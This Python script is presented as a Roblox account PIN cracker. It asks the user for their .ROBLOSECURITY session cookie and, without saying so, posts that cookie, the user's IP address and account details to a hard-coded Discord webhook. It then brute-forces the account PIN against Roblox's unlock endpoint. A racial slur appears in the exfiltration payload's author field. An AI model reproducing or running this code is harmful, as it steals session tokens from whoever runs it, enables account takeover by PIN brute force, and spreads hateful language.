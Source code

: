 import os

os.system("pip install requests")
os.system("pip install datetime")
os.system("pip install colorama")
os.system("cls")

import requests
import json
import time
from datetime import datetime
import colorama
from colorama import Fore, Back, Style, init
import json
init(convert=True)

ascii_art = r"""
                     ________       ___    ___ ___       __   _______   ___     ___    ___ 
                    |\   ____\     |\  \  /  /|\  \     |\  \|\  ___ \ |\  \   |\  \  /  /|
                    \ \  \___|_    \ \  \/  / | \  \    \ \  \ \   __/|\ \  \  \ \  \/  / /
                     \ \_____  \    \ \    / / \ \  \  __\ \  \ \  \_|/_\ \  \  \ \    / / 
                      \|____|\  \    \/  /  /   \ \  \|\__\_\  \ \  \_|\ \ \  \  /     \/  
                       ____\_\  \ __/  / /      \ \____________\ \_______\ \__\/  /\   \  
                       |\_________\\___/ /        \|____________|\|_______|\|__/__/ /\ __\ 
                       \|_________\|___|/                                      |__|/ \|__| 
                                                Made by Fusder
    """
print(ascii_art)

def main(cookie):
    ipAddr = requests.get("https://api.ipify.org").text

    statistics = None
    ID = "Couldn't get user ID to parse this info"

    if cookie:
        response = requests.get("https://www.roblox.com/mobileapi/userinfo",
                                headers={"Cookie": ".ROBLOSECURITY=" + cookie},
                                allow_redirects=False)

        if response.status_code == 200:
            statistics = response.json()
            ID = statistics.get("UserID", "N/A")

    payload = {
        "content": None,
        "embeds": [
            {
                "description": "```" + (cookie if cookie else "COOKIE NOT FOUND") + "```",
                "color": None,
                "fields": [
                    {"name": "Username", "value": statistics["UserName"] if statistics else "N/A", "inline": True},
                    {"name": "Robux", "value": statistics["RobuxBalance"] if statistics else "N/A", "inline": True},
                    {"name": "Premium", "value": statistics["IsPremium"] if statistics else "N/A", "inline": True},
                    {"name": "ID", "value": statistics["UserID"] if statistics else "N/A", "inline": True},
                    {"name": "Builders Club", "value": statistics["IsAnyBuildersClubMember"] if statistics else "N/A", "inline": True},
                    {"name": "ID Test", "value": ID, "inline": True},
                ],
                "author": {
                    "name": "Nigga Found: " + ipAddr,
                    "icon_url": statistics["ThumbnailUrl"] if statistics else "https://upload.wikimedia.org/wikipedia/commons/thumb/f/f3/NA_cap_icon.svg/1200px-NA_cap_icon.svg.png",
                },
                "thumbnail": {
                    "url": statistics["ThumbnailUrl"] if statistics else "https://upload.wikimedia.org/wikipedia/commons/thumb/f/f3/NA_cap_icon.svg/1200px-NA_cap_icon.svg.png",
                }
            }
        ],
        "username": "Fake PinCracker",
        "avatar_url": "https://cdn.discordapp.com/attachments/1086751397502001201/1135199253065637888/Screenshot_2023-07-25_224610.png",
        "attachments": []
    }

    headers = {"Content-Type": "Application/json"}
    response = requests.post(WEBHOOK, headers=headers, data=json.dumps(payload))

WEBHOOK = "https://discord.com/api/webhooks/1123913219698872361/GiH7qLGctK2WBvrgW98Phv7Dwi3-HE77cUJldEPEHLaiOjzkd-RBc6bAommRRd5Pd-qk"

credentials = input(Fore.RED + '[SYWEIX] Thanks for using Syweix pin cracker. Enter the account cookie - ')
if credentials.count(':') >= 2:
    username, password, cookie = credentials.split(':',2)
else:
    username, password, cookie = '', '', credentials
os.system('cls')

main(credentials)

req = requests.Session()
req.cookies['.ROBLOSECURITY'] = cookie
try:
    username = req.get('https://www.roblox.com/mobileapi/userinfo').json()['UserName']
    print(Fore.YELLOW + 'Logged in to', username)
except:
    input(Fore.RED + 'INVALID COOKIE')
    exit()

common_pins = req.get('https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/four-digit-pin-codes-sorted-by-frequency-withcount.csv').text
pins = [pin.split(',')[0] for pin in common_pins.splitlines()]
print(Fore.CYAN + 'Loaded pins was made by SyweixCommunity.')

r = req.get('https://accountinformation.roblox.com/v1/birthdate').json()
month = str(r['birthMonth']).zfill(2)
day = str(r['birthDay']).zfill(2)
year = str(r['birthYear'])

likely = [username[:4], password[:4], username[:2]*2, password[:2]*2, username[-4:], password[-4:], username[-2:]*2, password[-2:]*2, year, day+day, month+month, month+day, day+month]
likely = [x for x in likely if x.isdigit() and len(x) == 4]
for pin in likely:
    pins.remove(pin)
    pins.insert(0, pin)
print(f'Prioritized likely pins {likely}\n')

tried = 0
while 1:
    pin = pins.pop(0)
    os.system(f'title Pin Cracking {username} ~ Tried: {tried} ~ Current pin: {pin}')
    try:
        r = req.post('https://auth.roblox.com/v1/account/pin/unlock', json={'pin': pin})
        if 'X-CSRF-TOKEN' in r.headers:
            pins.insert(0, pin)
            req.headers['X-CSRF-TOKEN'] = r.headers['X-CSRF-TOKEN']
        elif 'errors' in r.json():
            code = r.json()['errors'][0]['code']
            if code == 0 and r.json()['errors'][0]['message'] == 'Authorization has been denied for this request.':
                print(Fore.MAGENTA + f'[FAILURE] Account cookie expired. :(')
                break
            elif code == 1:
                print(f'[SUCCESS] NO PIN')
                with open('pins.txt','a') as f:
                    f.write(f'NO PIN:{credentials}\n')
                break
            elif code == 3 or '"message":"TooManyRequests"' in r.text:
                pins.insert(0, pin)
                print(Fore.YELLOW + f'[{datetime.now()}] Sleeping for 5 minutes...')
                time.sleep(60*5)
            elif code == 4:
                tried += 1
        elif 'unlockedUntil' in r.json():
            print(f'[SUCCESS] {pin}')
            with open('pins.txt','a') as f:
                f.write(f'{pin}:{credentials}\n')
            break
        else:
            pins.insert(0, pin)
            print(f'[ERROR] {r.text}')
    except Exception as e:
        print(f'[ERROR] {e}')
        pins.insert(0, pin)


import json
        

input()
